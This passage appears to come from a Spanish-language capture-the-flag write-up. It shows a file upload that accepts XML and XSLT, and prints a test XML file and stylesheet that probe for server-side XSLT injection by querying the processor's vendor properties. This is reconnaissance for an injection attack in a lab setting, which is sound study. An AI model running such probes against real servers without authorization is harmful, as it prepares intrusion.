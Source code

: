<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-26 095426.png" alt=""><figcaption></figcaption></figure>

Veremos que podremos subir archivos, pero nos esta especificando que solamente con el formato `XML` y `XSLT`, tendremos que subir los `2` archivos uno apoyandose en el otro, con esto nos da una pista de que podriamos realizar un `XSLT Injection o Server-Side XSLT Processing`, por lo que vamos a probar de primeras a ver que esta haciendo por dentro.

> test.xml

```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="test.xsl"?>
<data>
    <item>test</item>
</data>
```

Con este primero archivos referenciamos al `test.xsl` para que lo cargue.

> test.xsl

```xsl
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="system-property('xsl:vendor')"/>
<xsl:text>&#10;</xsl:text>
<xsl:value-of select="system-property('xsl:vendor-url')"/>
</xsl:template>
</xsl:stylesheet>
```
